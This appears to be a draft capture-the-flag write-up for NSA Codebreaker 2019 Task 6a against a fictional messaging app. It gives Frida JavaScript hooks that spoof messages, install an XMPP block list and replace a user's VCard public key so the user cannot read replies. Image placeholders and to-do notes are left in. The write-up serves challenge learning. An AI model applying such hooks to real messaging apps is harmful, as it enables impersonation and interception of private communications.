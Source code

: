 ```yaml
---
layout: default
permalink: /CodeBreaker-2019-Task-6a/
title: NSA Codebreaker 2019, Task 6a
---
```


Task 6a requires you to<br>
- spoof a message and<br>
- prevent spoofed user from reading replies.<br>

How messages work
Half way there since un decrypted are hidden

When sending a message, TerrorTime will encrypt the message content with a symmetric key. This key is then encrypted using the sender's local public keys and the receiver's public keys. **need to verify** It's interesting that only the local public keys are used, and not all of the ones listed on the sender's VCard. The app makes the assumption that if the key is on the user's VCard, then it is also in the user's local copy. This prevents the message key from being encrypted with the spoof user's public key. I could send a message from a spoofed user and verify that it was using my key. When the spoofed user logged in, TerrorTime would not be able to decrypt the message and would ignore the message. 

** pic of message being sent, and the encrypted message **

Unfortunately, the recipient was not able to read the message either. I needed to looker deeper into how the message is decrypted. 

** decryption flow, with failure branches** 

In **Messaging.decryptMessage double check**, after the message is decrypted an internal structure is checked. 

** image of message structure **
** image of internal sturture **

The each user's public key fingerprints in the internal structure are checked to determine if the the message key was encrypted with a corresponding public key. If the internal structure contains a fingerprint that was not used, then TerrorTime treats the message as corrupt and drops it. Interestingly, the app does not check if the public key belongs to the sender or the receiver. Additionally, the message key can be encrypted with a public key that is not recorded in the internal structure. This is why I could send messages without error. 

** image of bad message **

Below if the Javascript I injected into TerrorTime to manipulate the message's internal structure to fix the corrupt issue. The script hooks the Messaging.encryptMessage function and changes the arguments sent to the real function. The client's public key fingerprints list is replaced with the contact's. Now when the contact receives the message, the internal structure only contains fingerprints for their own public keys.

{% highlight javascript %}
console.log("Script loaded successfully ");
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");

    var my_class = Java.use("com.badguy.terrortime.crypto.Messaging");
    var Message = Java.use("com.badguy.terrortime.Message");
    my_class.encryptMessage.implementation = function(msg, ckeys, conkeys) { 
        console.log("Edited encrypted message");
        return this.encryptMessage(msg, conkeys, conkeys);
    }
    console.log("Created hooks");
});
{% endhighlight %}

** image of good message **

Removing the spoofed user's public key from their VCard is another method to achieve the same result. The second part of the task can be completed two different ways; only one is checked for by the scoring system. The first method is to add the recipient to the spoofed user's block list. This is not a function provided by the TerrorTime app, but is a function of the XMPP server. The second method is to remove the spoofed user's public key from their VCard. Their public key is added back to the server when the user next logs in, which prevents permentally preventing communication. 

In my opinion, adding the user to a block list is a better method, since it<br>
- has a more grainiar focus,<br>
- enables spoofing while the user is logged in, and<br>
- is less detectable.<br>

Removing the public key has the following downsides,<br>
- blocks all contacts,<br>
- you are unable to control when spoofed user logs back in, and<br>
- is more detectable.<br>

Below is the javascript I injected to add user to blocklist. I had some trouble accessing the Enum PrivacyItem.Type from the JavaScript. This forced me to hook the toMXL function to set the privacyItem values. When a stanza is sent to the XMPP server, the send function will call the function toXML of the object representing the stanza. By hooking this function, I was able to format the XML correctly to block a user. 

{% highlight javascript %}
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");
        var TerrorTimeApplication = Java.use("com.badguy.terrortime.TerrorTimeApplication");
        var PrivacyListManager = Java.use("org.jivesoftware.smackx.privacy.PrivacyListManager");
        var PrivacyList = Java.use("org.jivesoftware.smackx.privacy.PrivacyList");
        var PrivacyItem = Java.use("org.jivesoftware.smackx.privacy.packet.PrivacyItem");
        var Type = Java.use("org.jivesoftware.smackx.privacy.packet.PrivacyItem$Type");
        var Enum = Java.use("java.lang.Enum");
        var ArrayList = Java.use("java.util.ArrayList");
        var JidCreate = Java.use("org.jxmpp.jid.impl.JidCreate");
        var AbstractXMPPConnection = Java.use("org.jivesoftware.smack.AbstractXMPPConnection");
        var String = Java.use("java.lang.String");

        PrivacyItem.toXML.implementation = function(){
            var xml = "<item action=\"deny\" type=\"jid\" value=\"zachary--vhost-174@terrortime.app\" order=\"0\"><message/></item>" // Java.cast(this.toXML(), String);
            return this.toXML();
        }

        Java.choose("com.badguy.terrortime.TerrorTimeApplication", {
            onMatch: function(instance) { 
                  try {
                      console.log("Start");
                      var app = Java.cast(instance, TerrorTimeApplication);
                      var conn_object = app.getXMPPTCPConnection().get();
                      var conn = Java.cast(conn_object, AbstractXMPPConnection);
                      console.log("Got Conn");
                      var block_item = Java.cast(PrivacyItem.$new(false, 0), PrivacyItem);
                      block_item.setFilterMessage(true);
                      console.log(block_item.toXML());

                      console.log("Created privacy list");
                      
                      var privacy_list = PrivacyListManager.getInstanceFor(conn);
                      var block_list = ArrayList.$new();
                      block_list.add(block_item); // have to create list with new operator
                      privacy_list.createPrivacyList("Block_to_Leader", block_list);
                      privacy_list.setActiveListName("Block_to_Leader");
                      console.log("Added user to block list: " + "zachary--vhost-174@terrortime.app");
                  } catch(error) {console.log("error: " + error.toString());}
            }, onComplete: function() {} });

});
{% endhighlight %}
** Picture or GIF of this, 3 phones if possible 1 spoofed, one reciever and one me. **

# Removing the public key from VCard #
I used the **savepublickey** function as a template to write JavaScript to remove the spoofed user's public key from their VCard. The below JavaScript will monitor TerrorTime for instances of the class com.badguy.terrortime.TerrorTimeApplication. Once found, the javascript<br>
- retrieves the current instances of VCardManager and XMPPTCPConnection,<br>
- requests the current user's VCard,<br>
- sets the "DESC" to my public key,<br>
- saves the modified VCard.<br>


{% highlight javascript %}
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");
        var my_class = Java.use("com.badguy.terrortime.VCardHelper");
        var TerrorTimeApplication = Java.use("com.badguy.terrortime.TerrorTimeApplication");
        var AbstractXMPPConnection = Java.use("org.jivesoftware.smack.AbstractXMPPConnection");
        var VCardManager = Java.use("org.jivesoftware.smackx.vcardtemp.VCardManager");
        var VCard = Java.use("org.jivesoftware.smackx.vcardtemp.packet.VCard");
        var PublicKey = Java.use("java.security.Key");
        var Set = Java.use("java.util.Set");
        var Base64 = Java.use("java.util.Base64");
        var String = Java.use("java.lang.String");
        var JidCreate = Java.use("org.jxmpp.jid.impl.JidCreate");
        var EntityFullJid = Java.use("org.jxmpp.jid.EntityFullJid");
        var EntityBareJid = Java.use("org.jxmpp.jid.EntityBareJid");
        var Jid = Java.use("org.jxmpp.jid.Jid");

       console.log("Start");
        Java.choose("com.badguy.terrortime.TerrorTimeApplication", {
            onMatch: function(instance) { 
                  try {
                      var app = Java.cast(instance, TerrorTimeApplication);
                      var vcard_manager = Java.cast(app.getVCardManager().get(), VCardManager);
                      console.log("Got Manager");
                      var conn_object = app.getXMPPTCPConnection().get();
                      var conn = Java.cast(conn_object, AbstractXMPPConnection);
                      console.log("Got Conn");
                      var user = Java.cast(Java.cast(conn.getUser(), Jid).asEntityBareJidIfPossible(), EntityBareJid);
                      console.log("Got Jid");
                      var my_vcard = Java.cast(vcard_manager.loadVCard(user), VCard);
                      console.log("Got vcard");
                      var new_pub_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6xOaF/SVJiwEDCyHAZouu9wTYven46+o6vb9zNM5RgC2L3CkNKdhP0bDNrJbX9hz3BjwACiR4mYkLqbevjomX7ihD3CUtiNj0zXRDuXrrEFuT3dHURO65Ooyk08GS4cDiSpUejcmX4qeuBuefV08eTVSseLGLB8gLUI3IxZ11CKc7cgTCf763SicwcUEJSBV71IEysOKCCjsbqPAS0rRhgVaSIKs7uWqPUuSIIsIjnBi9/DT18OrAfQHyjW8j/I2mi9Mf6FhlhmpgL3L1W58X+LMHdQYDvoKXyPVhDnTInvCm7P7Xddms9qqCAQulxzlL/6HSC2x4c2Fyw9ZYDVytQIDAQAB\n-----END PUBLIC KEY-----";

                      my_vcard.setField("DESC", new_pub_key);
                      vcard_manager.saveVCard(my_vcard);
                      console.log("Saved VCard");
                  } catch(error) {console.log("error: " + error.toString());}
            }, onComplete: function() {} });

});
{% endhighlight %}

Now when a user replies to the spoofed user, the message key is not encrypted with their public key; preventing decryption. Removing the spoofed user's public key from their VCard fixes both problems, prevents the public key fingerprint from being in the messages internal structure and prevents the spoofed user from reading replies. 


** return this.encryptMessage(msg, conkeys, conkeys); // what happens if the inter clientid is different, set out as kingsley, internal as brian **
** is the internal username used for displaying the name, or is the FROM used? Can we create a man in the middle if the internal is used **
** log in as reciepant and watch for recieved messages, then forward to spoofed user if you want **


![_config.yml]({{ site.baseurl }}/images/codebreaker_2019/task_6/x.png)